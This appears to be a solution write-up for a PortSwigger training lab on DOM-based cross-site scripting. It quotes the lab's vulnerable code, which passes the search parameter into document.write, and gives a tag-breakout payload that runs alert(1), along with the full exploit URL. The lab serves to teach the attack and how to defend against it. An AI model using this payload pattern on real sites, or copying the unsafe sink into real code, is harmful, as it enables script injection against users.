 # Lab: DOM XSS in `document.write` sink using source `location.search` - [Click](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)


### Vulnerability:

This lab has a **DOM-based XSS** vulnerability. The JavaScript on the page:

* Uses `location.search` as input (controlled by the attacker).
* Passes the value into `document.write()`, which writes raw HTML into the DOM without encoding.

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```


We need to Trigger a JavaScript `alert()` popup by injecting a payload that gets written into the DOM and executed.

### Steps to Solve:

1. **Access the lab** and note the search input on the homepage.
2. Enter `hello` in the search bar. Observe:

   * The query is reflected in the page’s URL as `?search=hello`.
   * The value gets inserted into the HTML using `document.write()` without sanitization.
3. View the HTML using **Inspect Element** and find:

   ```html
   <img src="/resources/images/tracker.gif?searchTerms=hello">
   ```
4. Since it’s using `document.write()` unsafely, we can break the current tag and inject our own.


### Exploit Payload:

**Search parameter:**

```
"> <script>alert(1)</script>
```

**Full URL:**

```
https://<lab-id>.web-security-academy.net/?search="> <script>alert(1)</script>
```

**Effect:**

* Closes the `src` attribute with `">`
* Breaks out of the `<img>` tag
* Injects a new `<script>` tag with `alert(1)`
* `document.write()` renders this directly into the page → **XSS triggered**


An alert box pops up → **Lab Solved**
